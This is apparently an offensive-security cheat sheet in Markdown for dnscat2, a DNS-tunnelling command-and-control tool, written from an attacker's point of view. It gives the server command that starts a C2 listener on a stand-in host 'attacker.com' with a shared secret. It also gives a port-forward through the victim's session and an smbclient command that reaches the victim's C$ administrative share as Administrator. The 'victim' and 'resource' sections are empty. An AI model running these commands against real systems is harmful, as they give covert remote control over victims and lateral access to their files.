

# DNScat

## DNScat usage

### Server side

```csharp
root@ip-172-31-37-132:/opt/dnscat2/server# ruby dnscat2.rb attacker.com --secret 543983jkjklfsp324edps
```

### On the victim 



### Port Forwarding

Forward port 445 on attacker machine port 1234

```csharp
command (client) 1> listen 127.0.0.1:1234 10.0.0.1:445
```

then, on the attacker :

```csharp
smbclient -U Administrator -p 1234 \\127.0.0.1\C$
```


### Resource



